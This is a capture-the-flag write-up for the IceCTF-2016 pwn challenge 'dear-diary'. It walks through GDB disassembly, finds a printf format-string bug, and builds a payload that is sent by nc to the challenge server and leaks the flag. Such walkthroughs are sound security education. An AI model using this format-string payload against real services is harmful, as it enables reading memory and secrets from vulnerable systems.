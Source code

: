 # IceCTF-2016 : dear-diary-60

**Category:** Pwn
**Points:** 60
**Description:**

We all want to keep our secrets secure and what is more important than our precious diary entries? We made this highly secure diary service that is sure to keep all your boy crushes and edgy poems safe from your parents. nc diary.vuln.icec.tf 6501download file

## Writeup

Looking around the binary with GDB we can find that:
- the function `flag()` is called at the start of `main()` and it reads content from `./flag.txt` file.
- `print_entry` suffers of a string format vulnerability that allow us to read arbitrary memory addresses.

```sh
[dom28:ago:16 20:22:46] phra@kali ~/ctf/write-ups-2016 $ gdb ./dear_diary
(gdb) set disassembly-flavor intel
(gdb) disas print_entry 
Dump of assembler code for function print_entry:
   0x08048721 <+0>:     push   ebp
   0x08048722 <+1>:     mov    ebp,esp
   0x08048724 <+3>:     sub    esp,0x28
   0x08048727 <+6>:     mov    eax,DWORD PTR [ebp+0x8]
   0x0804872a <+9>:     mov    DWORD PTR [ebp-0x1c],eax
   0x0804872d <+12>:    mov    eax,gs:0x14
   0x08048733 <+18>:    mov    DWORD PTR [ebp-0xc],eax
   0x08048736 <+21>:    xor    eax,eax
   0x08048738 <+23>:    mov    eax,DWORD PTR [ebp-0x1c]
   0x0804873b <+26>:    mov    DWORD PTR [esp],eax
   0x0804873e <+29>:    call   0x8048490 <printf@plt>
   0x08048743 <+34>:    mov    eax,ds:0x804a080
   0x08048748 <+39>:    mov    DWORD PTR [esp],eax
   0x0804874b <+42>:    call   0x80484a0 <fflush@plt>
   0x08048750 <+47>:    mov    eax,DWORD PTR [ebp-0xc]
   0x08048753 <+50>:    xor    eax,DWORD PTR gs:0x14
   0x0804875a <+57>:    je     0x8048761 <print_entry+64>
   0x0804875c <+59>:    call   0x80484c0 <__stack_chk_fail@plt>
   0x08048761 <+64>:    leave  
   0x08048762 <+65>:    ret    
End of assembler dump.
(gdb) 
```
`*print_entry+29` calls `printf()` with only one argument, a `char*` pointer to a string that we control.

Now we need the address of the flag, so let\'s disassemble `flag()` function.

```sh
(gdb) disas flag 
Dump of assembler code for function flag:
   0x0804863d <+0>:     push   ebp
   0x0804863e <+1>:     mov    ebp,esp
   0x08048640 <+3>:     sub    esp,0x28
   0x08048643 <+6>:     mov    eax,gs:0x14
   0x08048649 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x0804864c <+15>:    xor    eax,eax
   0x0804864e <+17>:    mov    DWORD PTR [esp+0x4],0x0
   0x08048656 <+25>:    mov    DWORD PTR [esp],0x8048940
   0x0804865d <+32>:    call   0x8048500 <open@plt>
   0x08048662 <+37>:    mov    DWORD PTR [ebp-0x10],eax
   0x08048665 <+40>:    mov    DWORD PTR [esp+0x8],0x100
   0x0804866d <+48>:    mov    DWORD PTR [esp+0x4],0x804a0a0
   0x08048675 <+56>:    mov    eax,DWORD PTR [ebp-0x10]
   0x08048678 <+59>:    mov    DWORD PTR [esp],eax
   0x0804867b <+62>:    call   0x8048480 <read@plt>
   0x08048680 <+67>:    mov    eax,DWORD PTR [ebp-0xc]
   0x08048683 <+70>:    xor    eax,DWORD PTR gs:0x14
   0x0804868a <+77>:    je     0x8048691 <flag+84>
   0x0804868c <+79>:    call   0x80484c0 <__stack_chk_fail@plt>
   0x08048691 <+84>:    leave  
   0x08048692 <+85>:    ret    
End of assembler dump.
```

So the address of the buffer where the flag is loaded is at `0x804a0a0`.
Now we need to find in the stack where to put the address value.

```sh
> [dom28:ago:16 20:54:58] phra@kali ~/ctf/icectf/diary $ echo -ne "1\nAABB%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x\n2\n3\n" | ./dear_diary
-- Diary 3000 --

1. add entry
2. print latest entry
3. quit
> Tell me all your secrets: 
1. add entry
2. print latest entry
3. quit
> AABBf75fa836|f7771000|ffc751b8|ffc765b8|0|a|84e1a800|0|0|ffc765c8|804888c|ffc751b8|4|f7771c20|0|0|1|42424141

1. add entry
2. print latest entry
3. quit
```
We can insert an arbitrary value on the stack and then trigger the format string vulnerability. Let's do it.

### PAYLOAD EXAMPLE
```
                   1\n\xa0\xa0\x04\x08%f%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%s\n2\n3\n
                       ^^^^^^^^^^^^^^^                                ^^
                       |||||||||||||||                                ||
                       |_______________________________________________|
                    address of flag                     format string exploitation
```

### EXPLOITING:
```sh
> [lun22:ago:16 00:48:01] phra@kali ~/ctf/icectf/diary $ echo -ne "1\n\xa0\xa0\x04\x08%f%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%s\n2\n3\n" | nc diary.vuln.icec.tf 6501
-- Diary 3000 --

1. add entry
2. print latest entry
3. quit
> Tell me all your secrets: 
1. add entry
2. print latest entry
3. quit
>-2353853267122949880488228771336605507975940228259531131213483876911033610747119179881566931135505952160644480871830309847003193621900077982680289929588490075567303710965080432136832255512352674224129626420279574654921909982545998909142624828095873782519863311234760704.000000ffd440a8ffd454a80a6df56b0000ffd454b8804888cffd440a84f7724c20001IceCTF{this_thing_is_just_sitting_here}


1. add entry
2. print latest entry
3. quit
```
We have found the flag `IceCTF{this_thing_is_just_sitting_here}`.

## Other write-ups and resources

* https://github.com/Alpackers/CTF-Writeups/tree/master/2016/IceCTF/Stage_2/DearDiary
* https://github.com/EspacioTeam/write-ups/tree/master/2016/icectf/Dear%20diary
* https://github.com/1amtom/writeups/tree/master/2016-08-16-IceCTF/pwn-60-dear-diary
* https://github.com/73696e65/ctf-notes/blob/master/2016-IceCTF/Dear_diary-Pwn-60.txt
* https://github.com/WCSC/writeups/tree/master/icectf-2016/dear_diary
* [Japanese](https://ctftime.org/writeup/3813)
* https://github.com/318BR/IceCTF/tree/master/2016/Stage2/Dear_Diary
